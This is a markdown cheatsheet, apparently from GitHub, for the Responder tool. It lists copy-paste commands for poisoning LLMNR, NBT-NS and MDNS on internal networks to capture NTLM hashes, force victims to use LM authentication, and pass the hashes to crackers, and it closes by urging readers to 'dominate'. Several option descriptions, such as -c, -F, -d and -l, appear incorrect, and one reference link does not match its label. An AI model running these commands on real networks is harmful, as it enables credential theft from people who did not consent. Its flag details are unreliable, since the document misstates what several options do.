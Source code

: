 #Tool #RED 
# Responder Cheatsheet 🕵️‍♂️🔗

Welcome to the **Responder Cheatsheet**! Responder is a powerful tool used for capturing network credentials and performing Man-in-the-Middle (MITM) attacks in internal networks. This guide will help you unleash Responder’s full potential! 🚀

---

## 🌟 What is Responder?
**Responder** is a tool for exploiting network services like LLMNR, NBT-NS, and MDNS to intercept network authentication requests. It is commonly used for network penetration testing.

### 🛠 Features:
- Capture NTLM hashes.
- Perform MITM attacks.
- Redirect SMB and HTTP authentication requests.
- Lightweight and easy to use.

---

## 🧰 Common Commands

### 🔍 Start Responder
```bash
sudo responder -I eth0
```
Start Responder on a specific network interface.

### 📡 Enable Specific Services
```bash
sudo responder -I eth0 -w -r -f
```
Enable WPAD, rogue authentication, and fingerprinting services.

### 🔒 Disable Specific Services
```bash
sudo responder -I eth0 -dw
```
Disable WPAD while running Responder.

### 📜 Save Logs to a Custom Directory
```bash
sudo responder -I eth0 -l /path/to/logs
```
Specify a custom directory to save log files.

---

## ⚙️ Advanced Usage

### 🌐 Analyze Network Traffic Only
```bash
sudo responder -I eth0 -A
```
Run Responder in Analyze mode to passively monitor traffic.

### 🚀 Redirect Authentication Requests
```bash
sudo responder -I eth0 --lm
```
Force victims to authenticate using legacy LM hashes.

### 📂 Specify Custom Responder Config File
```bash
sudo responder -I eth0 -c /path/to/Responder.conf
```
Use a custom configuration file for advanced customization.

### 🧹 Clear Log Files
```bash
sudo responder -I eth0 -F
```
Delete all old log files before starting.

---

## 📋 Handy Options

| Option          | Description                                             |
|-----------------|---------------------------------------------------------|
| `-I`            | Specify the network interface to listen on              |
| `-A`            | Analyze mode (no rogue responses)                      |
| `-w`            | Enable WPAD rogue authentication                       |
| `-r`            | Enable rogue authentication                            |
| `-f`            | Fingerprint hosts                                      |
| `-d`            | Disable specific services (e.g., WPAD)                 |
| `-c`            | Specify custom Responder config file                   |
| `-F`            | Clear log files                                        |
| `-l`            | Save logs to a specific directory                      |
| `--lm`          | Force LM authentication                                |

---

## 🌐 Example Scenarios

### Scenario 1: Basic Credential Capture
```bash
sudo responder -I eth0
```
Intercept and capture credentials on the local network.

### Scenario 2: Passive Traffic Analysis
```bash
sudo responder -I eth0 -A
```
Analyze network traffic without sending rogue responses.

### Scenario 3: Custom Configuration
```bash
sudo responder -I eth0 -c /path/to/custom.conf
```
Run Responder with a custom configuration file.

---

## 🚀 Pro Tips

### 1️⃣ Combine with Crack Tools
After capturing hashes, use tools like **Hashcat** or **John the Ripper** to crack them.

### 2️⃣ Disable Unnecessary Services
Reduce noise by disabling unused Responder services, such as WPAD (`-dw`).

### 3️⃣ Automate Responder Logs
Automate the parsing of Responder logs to streamline post-capture analysis.

---

## 📚 References
- [Responder GitHub Repository](https://github.com/SpiderLabs/Responder)
- [LLMNR and NBT-NS Exploitation Guide](https://owasp.org/www-project-vulnerable-web-applications-directory/)

---

✨ **Copy, paste, and dominate network recon with Responder!** ✨

